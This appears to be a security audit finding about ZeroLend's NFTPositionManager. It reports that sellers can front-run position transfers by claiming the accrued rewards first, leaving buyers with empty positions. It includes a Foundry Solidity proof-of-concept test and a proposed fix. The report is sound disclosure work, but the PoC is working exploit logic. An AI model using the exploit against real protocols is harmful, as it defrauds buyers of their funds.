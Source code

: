 Great Jade Shetland

High

# All `NFTPositionManager` actions are vulnerable to frontrunning

### Summary

All ZeroLend positions can be represented in NFTs, using the position manager, this allows users to buy/trade/sell different positions, from the protocol [docs](https://docs-one.zerolend.xyz/features/nft-positions):
>Unlike traditional lending protocols, ZeroLend One allows users to transfer their positions. This means that users can sell, trade, or gift their lending or borrowing positions as NFTs to other users.

Trading positions allows buyers to take benefit of the position's collateral/debt/rewards, in return for some price accepted by both parties, also from the docs:
>Transferring an NFT transfers all associated rights and obligations, offering unprecedented liquidity and flexibility.

However, this is vulnerable to frontrunning, where bad actors could "sell" a position while at the same time keeping all its associated funds/rewards, this is because the `NFTPositionManager` doesn't provide a way to "pause" the position before transferring it.

ZeroLend users, that willing to buy positions, are vulnerable to losing their funds in return for an empty position.

https://github.com/sherlock-audit/2024-06-new-scope/blob/main/zerolend-one/contracts/core/positions/NFTRewardsDistributor.sol#L88

A sample scenario:
1. Bob wants to sell Alice a position (that contains some rewards)
2. Bob submits the transfer TX
3. Bob front runs that TX, by sending a claim TX while proving higher gas fees
4. Claim TX is executed first, then Alice receives an empty position

### Root Cause

Absence of a pausing mechanism that pauses positions before allowing them to be transferred.

### Impact

Potential position buyers are vulnerable to frontrunning, forcing them to lose funds.

### PoC

The following POC demonstrates just 1 scenario of front running and taking over the buyer's dues: the rewards.

<details>
<summary>Test/POC</summary>

```solidity
contract Contest_NFT is Test {
  PoolFactory public poolFactory;
  Pool public poolImplementation;
  PoolConfigurator public configurator;
  DefaultReserveInterestRateStrategy public irStrategy;
  IPool internal pool;
  NFTPositionManager nftPositionManager;
  WETH9Mocked public WETH;
  MintableERC20 public ZERO;
  MockV3Aggregator public WETHOracle;

  address public owner = makeAddr('owner');
  address public PMowner = makeAddr('PMowner');
  address internal allocator = makeAddr('allocator');
  address public bob = makeAddr('bob');
  address public alice = makeAddr('alice');

  function _setUpCore() internal {
    poolImplementation = new Pool();
    poolFactory = new PoolFactory(address(poolImplementation));
    configurator = new PoolConfigurator(address(poolFactory));
    poolFactory.setConfigurator(address(configurator));

    WETH = new WETH9Mocked();
    ZERO = new MintableERC20('Reward Token', 'RWT');

    WETHOracle = new MockV3Aggregator(8, 2_600e8);

    irStrategy = new DefaultReserveInterestRateStrategy(47 * 1e25, 0, 7 * 1e25, 30 * 1e25);
  }

  function _basicPoolInitParams() internal view returns (DataTypes.InitPoolParams memory p) {
    address[] memory assets = new address[](1);
    assets[0] = address(WETH);

    address[] memory rateStrategyAddresses = new address[](1);
    rateStrategyAddresses[0] = address(irStrategy);

    address[] memory sources = new address[](1);
    sources[0] = address(WETHOracle);

    DataTypes.InitReserveConfig memory config = DataTypes.InitReserveConfig({
      ltv: 7500,
      liquidationThreshold: 8000,
      liquidationBonus: 10_500,
      decimals: 18,
      frozen: false,
      borrowable: true,
      borrowCap: 0,
      supplyCap: 0
    });

    DataTypes.InitReserveConfig[] memory configurationLocal = new DataTypes.InitReserveConfig[](2);
    configurationLocal[0] = config;
    configurationLocal[1] = config;

    address[] memory admins = new address[](1);
    admins[0] = address(this);

    p = DataTypes.InitPoolParams({
      proxyAdmin: address(this),
      revokeProxy: false,
      admins: admins,
      emergencyAdmins: new address[](0),
      riskAdmins: new address[](0),
      hook: address(0),
      assets: assets,
      rateStrategyAddresses: rateStrategyAddresses,
      sources: sources,
      configurations: configurationLocal
    });
  }

  function _setUpPool() internal {
    poolFactory.createPool(_basicPoolInitParams());
    IPool poolAddr = poolFactory.pools(0);
    pool = IPool(address(poolAddr));
  }

  function _setUpPositionManager() internal {
    NFTPositionManager _nftPositionManager = new NFTPositionManager();
    TransparentUpgradeableProxy proxy = new TransparentUpgradeableProxy(address(_nftPositionManager), owner, bytes(''));
    nftPositionManager = NFTPositionManager(payable(address(proxy)));
    nftPositionManager.initialize(address(poolFactory), address(0), PMowner, address(ZERO), address(WETH));

    vm.startPrank(PMowner);
    nftPositionManager.grantRole(nftPositionManager.REWARDS_ALLOCATOR_ROLE(), allocator);
    vm.stopPrank();
  }

  function _syncOracles() internal {
    WETHOracle.updateRoundTimestamp();
  }

  function setUp() public {
    _setUpCore();
    _setUpPool();
    _setUpPositionManager();
    _syncOracles();
  }

  function testNFTActionsFrontrun() public {
    uint256 WETHamount = 1e18;
    uint256 bobTokenId;
    bytes32 assetHash = nftPositionManager.assetHash(address(pool), address(WETH), false);

    WETH.mint(bob, WETHamount);
    WETH.mint(alice, WETHamount);
    ZERO.mint(allocator, 100e18);

    // Allocators notify rewards
    vm.startPrank(allocator);
    ZERO.approve(address(nftPositionManager), type(uint256).max);
    nftPositionManager.notifyRewardAmount(100e18, address(pool), address(WETH), false);
    vm.stopPrank();

    // Bob mints and supplies WETH
    vm.startPrank(bob);
    bobTokenId = nftPositionManager.mint(address(pool));
    WETH.approve(address(nftPositionManager), type(uint256).max);
    nftPositionManager.supply(
      INFTPositionManager.AssetOperationParams({
        asset: address(WETH),
        amount: WETHamount,
        tokenId: bobTokenId,
        target: bob,
        data: DataTypes.ExtraData(bytes(''), bytes(''))
      })
    );
    vm.stopPrank();

    // Some time passes
    vm.warp(block.timestamp + 10 days);
    _syncOracles();

    // Bob's position has earned some rewards
    assertGt(nftPositionManager.earned(bobTokenId, assetHash), 0);

    // Bob front-runs the transfer transaction and claims the rewards
    vm.startPrank(bob);
    nftPositionManager.getReward(bobTokenId, assetHash);
    nftPositionManager.safeTransferFrom(bob, alice, bobTokenId);
    vm.stopPrank();
  }
}
```
</details>

### Mitigation

Add a new pausable concept, where NFTs should be paused before allowing transfers, that way potential buyers are protected against bad sellers.